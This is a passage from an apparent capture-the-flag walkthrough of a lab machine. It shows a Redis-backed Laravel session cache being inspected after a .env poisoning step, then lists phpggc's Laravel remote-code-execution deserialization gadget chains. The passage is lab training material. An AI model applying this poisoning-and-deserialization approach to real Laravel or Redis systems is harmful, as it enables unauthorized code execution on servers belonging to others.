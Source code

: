 ```

oxdf@hacky$ sudo netstat -tnlp | grep 6379
tcp        0      0 0.0.0.0:6379            0.0.0.0:*               LISTEN      95298/redis-server  
tcp6       0      0 :::6379                 :::*                    LISTEN      95298/redis-server

```

I’ll connect to this server, and see there are no keys:

```

oxdf@hacky$ redis-cli 
127.0.0.1:6379> keys *
(empty list or set)

```

If I re-poison the `.env` (it’s timed out by now), and then refresh the login page in the private window, there’s now a session cached:

```
127.0.0.1:6379> keys *
1) "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34"
127.0.0.1:6379> get "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34"
"s:197:\"a:3:{s:6:\"_token\";s:40:\"R53GMtfMIuQmJIF3YtfQO31InoSm4faU3FtZmGJ9\";s:9:\"_previous\";a:1:{s:3:\"url\";s:39:\"http://status.catch.htb:8000/auth/login\";}s:6:\"_flash\";a:2:{s:3:\"old\";a:0:{}s:3:\"new\";a:0:{}}}\";"

```

I’ll recognize that result as a serialized PHP object.

#### POC

[PHP Generic Gadget Chains](https://github.com/ambionics/phpggc), or `phpggc`, is a tool for creating serialized attack payloads. I’ll `git clone` it into my `/opt` directory.

There’s a bunch of payloads for Laravel:

```

oxdf@hacky$ /opt/phpggc/phpggc -l | grep -i laravel
Laravel/RCE1                              5.4.27                             RCE (Function call)    __destruct          
Laravel/RCE10                             5.6.0 <= 9.1.8+                    RCE (Function call)    __toString          
Laravel/RCE2                              5.4.0 <= 8.6.9+                    RCE (Function call)    __destruct          
Laravel/RCE3                              5.5.0 <= 5.8.35                    RCE (Function call)    __destruct     *    
Laravel/RCE4                              5.4.0 <= 8.6.9+                    RCE (Function call)    __destruct          
Laravel/RCE5                              5.8.30                             RCE (PHP code)         __destruct     *    
Laravel/RCE6                              5.5.* <= 5.8.35                    RCE (PHP code)         __destruct     *    
Laravel/RCE7                              ? <= 8.16.1                        RCE (Function call)    __destruct     *    
Laravel/RCE8                              7.0.0 <= 8.6.9+                    RCE (Function call)    __destruct     *    
Laravel/RCE9                              5.4.0 <= 9.1.8+                    RCE (Function call)    __destruct

```
